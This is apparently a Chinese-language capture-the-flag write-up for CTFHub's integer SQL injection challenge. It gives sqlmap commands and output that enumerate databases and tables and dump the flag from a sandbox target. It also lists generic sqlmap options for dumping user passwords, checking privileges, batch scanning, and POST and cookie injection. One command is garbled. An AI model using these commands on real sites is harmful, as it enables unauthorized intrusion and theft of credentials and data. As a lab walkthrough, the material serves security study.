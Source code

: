 ```yaml
---
title: 整数型SQL注入
date: 2024-11-12T18:06:06Z
lastmod: 2024-11-15T20:33:00Z
---
```


# 整数型SQL注入

ctfhub{f797878b77751f2aa52c00bd}

#### 检测注入点

```cobol
sqlmap -u "http://challenge-ee02641a7b40090e.sandbox.ctfhub.com:10800/?id=1"             //检测过程中需要手动输入y/n，即是否继续进行sql注入检测
sqlmap -u "http://challenge-ee02641a7b40090e.sandbox.ctfhub.com:10800/?id=1" --batch     //检测过程中默认继续进行sql注入检测
```

#### 产看所有数据库

```sql
sqlmap -u "http://challenge-ee02641a7b40090e.sandbox.ctfhub.com:--dbs
```

```shell
available databases [4]:                               
[*] information_schema
[*] mysql
[*] performance_schema
[*] sqli
```

#### 查看当前网站使用的数据库

```sql
sqlmap -u "http://challenge-ee02641a7b40090e.sandbox.ctfhub.com:10800/?id=1" --current-db
```

#### 产看[数据表](https://so.csdn.net/so/search?q=%E6%95%B0%E6%8D%AE%E8%A1%A8&spm=1001.2101.3001.7020)

```sql
sqlmap -u "http://challenge-ee02641a7b40090e.sandbox.ctfhub.com:10800/?id=1" -D 'sqli' --tables
```

```shell
Database: sqli                                         
[2 tables]
+------+
| flag |
| news |
+------+
```

#### 查看字段

```sql
sqlmap -u "http://challenge-ee02641a7b40090e.sandbox.ctfhub.com:10800/?id=1" -D 'sqli' -T 'flag' --columns
```

```shell
Database: sqli
Table: flag
[1 column]
+--------+--------------+
| Column | Type         |
+--------+--------------+
| flag   | varchar(100) |
+--------+--------------+
```

#### 查看字段数据

```perl
sqlmap -u "http://challenge-ee02641a7b40090e.sandbox.ctfhub.com:10800/?id=1" -D 'sqli' -T 'flag' --dump
```

```shell
abase 'sqli'
Database: sqli'
Table: flag
[1 entry]
+----------------------------------+
| flag                             |
+----------------------------------+
| ctfhub{4598642ab583bc461923d8c9} |
+----------------------------------+
```

#### [查看数据库](https://so.csdn.net/so/search?q=%E6%9F%A5%E7%9C%8B%E6%95%B0%E6%8D%AE%E5%BA%93&spm=1001.2101.3001.7020)用户

```sql
sqlmap -u "http://challenge-ee02641a7b40090e.sandbox.ctfhub.com:10800/?id=1" --current-user
```

#### 查看所有用户

```sql
sqlmap -u 完整url --users
```

#### 获取数据库用户密码

```sql
sqlmap -u 完整url --passwords
```

#### 查看[用户权限](https://so.csdn.net/so/search?q=%E7%94%A8%E6%88%B7%E6%9D%83%E9%99%90&spm=1001.2101.3001.7020)

```sql
sqlmap -u 完整url --privileges
```

#### 判断当前数据库用户是否是管理员

```csharp
sqlmap -u 完整url --is-dba
```

### 自动化扫描

将抓到的数据包右键copy to file，然后使用kali注入

```sql
sqlmap -r '数据包路径' --dbs --batch
```

### 批量自动化扫描

新建xxx.txt文件，里面存放多个url

```undefined
sqlmap -m xxx.txt
```

---

### post请求注入

将抓包抓到的http请求内容存放到.txt文件中

```undefined
sqlmap -r xxx.txt
```

---

### cookie注入

一些需要登录的网站在用sqlmap进行注入时，需要添加cookie参数：

```csharp
sqlmap -u 完整curl --cookie 'cookie'（单引号和双引号都行）
```
